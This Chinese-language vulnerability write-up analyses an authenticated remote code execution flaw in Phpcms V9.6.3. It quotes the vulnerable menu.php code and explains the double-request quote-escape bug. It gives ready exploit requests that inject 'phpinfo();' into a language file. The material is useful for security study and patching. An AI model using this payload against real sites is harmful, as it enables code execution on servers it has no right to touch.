 Phpcms V9.6.3 后台远程命令执行漏洞
==================================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.6.3

三、复现过程
------------

### 漏洞分析

漏洞代码位于 `/phpcms/modules/admin/menu.php` 第 81 行

    function edit() {
        if(isset($_POST['dosubmit'])) {
            $id = intval($_POST['id']);
            //print_r($_POST['info']);exit;
            $r = $this->db->get_one(array('id'=>$id));
            $this->db->update($_POST['info'],array('id'=>$id));
            //修改语言文件
            $file = PC_PATH.'languages'.DIRECTORY_SEPARATOR.'zh-cn'.DIRECTORY_SEPARATOR.'system_menu.lang.php';
            require $file;
            $key = $_POST['info']['name'];
            if(!isset($LANG[$key])) {
                $content = file_get_contents($file);
                $content = substr($content,0,-2);
                $data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";
                file_put_contents($file,$data);
            } elseif(isset($LANG[$key]) && $LANG[$key]!=$_POST['language']) {
                $content = file_get_contents($file);
                $content = str_replace($LANG[$key],$_POST['language'],$content);
                file_put_contents($file,$content);
            }
            $this->update_menu_models($id, $r, $_POST['info']);          
            //结束语言文件修改
            showmessage(L('operation_success'));
        } else {

        .  .  .   .  .  .  

        }
    }

这段代码是修改语言文件用的，而这个语言文件就是
/phpcms/languages/zh-cn/system\_menu.lang.php

里面一堆类似 `$LANG['video'] = '视频';` 的东西

当时用 rips 扫描发现的大多是
`$data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";`
这种拼接操作，而且 POST 中的单引号会被转义，无法逃逸

转义代码位于 `/phpcms/libs/classes/param.class.php`

    public function __construct() {
        if(!get_magic_quotes_gpc()) {
            $_POST = new_addslashes($_POST);
            $_GET = new_addslashes($_GET);
            $_REQUEST = new_addslashes($_REQUEST);
            $_COOKIE = new_addslashes($_COOKIE);
        }

    }

而这里突然看到一个 str\_replace ，
`str_replace($LANG[$key],$_POST['language'],$content)`，感觉可能会有漏洞

一番胡乱测试之后惊奇的发现网站 500 了，细看原来是单引号逃逸导致报错

下面是漏洞分析过程

首先要登录后台拿到 pc\_hash 的值，这个是防止提交恶意数据的，后台首页 F12
就能看到

![1.png](./.resource/PhpcmsV9.6.3后台远程命令执行漏洞/media/rId25.png)

然后访问：

    http://www.0-sec.org:9000/index.php?m=admin&c=menu&a=edit&pc_hash=wCuF7w

phpcms 的路由和那个 yzmcms 差不多，m 是模块名，对应 /phpcms
下的文件夹，c 是控制器名，对应 /phpcms/模块/ 下的 php 文件名，a
则对应控制器类的类函数名

发送 POST 请求：

    dosubmit=1&info[name]=1&language=1

语言文件最后会新添内容

    $LANG['1'] = '1';

### 第一次请求

发送 POST 请求：

    dosubmit=1&info[name]=1&language=1'

`require $file;` 引入语言文件，`$LANG[$key]` 的值还是
NULL，所以执行拼接操作

    $data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";
    file_put_contents($file,$data);

得到语言文件新添内容为

    $LANG['1'] = '1\'';
    ?>

### 第二次请求

发送与第一次相同的 POST 请求

`require $file;` 引入语言文件得到 `$LANG[$key]` 的值是
`string(2) "1'"`，也就是说，没有反斜杠，这样问题就出现了，我们同样的请求发送了两次，按照代码逻辑来看，是不应该更新
`$LANG[$key]` 的值的

但是因为 `require` 和 `file_get_contents`
函数读取之后的文件内容不含反斜杠，而我们 POST 传入的 language
会被转义处理得到的值是 `string(3) "1\'"`

于是判断 `$LANG[$key]!=$_POST['language']` 就成立了，接着 `str_replace`
函数进行字符串替换操作，把原来的 `$LANG['1'] = '1\'';` 中的 `1'` 替换成
`1\'`，最终写入文件

结果就得到了以下文件内容，第二个单引号被反斜杠转义，无法闭合

    $LANG['1\'] = '1\'';
    ?>

payload:

发送两次以下请求，访问语言文件
http://www.0-sec.org:9000/phpcms/languages/zh-cn/system\_menu.lang.php
即可得到 phpinfo

URL:

    http://www.0-sec.org:9000/index.php?m=admin&c=menu&a=edit&pc_hash=wCuF7w

POST:

    dosubmit=1&info[name]=];phpinfo();//1&language=];phpinfo();//1'

![2.png](./.resource/PhpcmsV9.6.3后台远程命令执行漏洞/media/rId28.png)

参考链接
--------

> http://j0k3r.top/2019/10/09/phpcmsv9.6.3\_background\_rce/
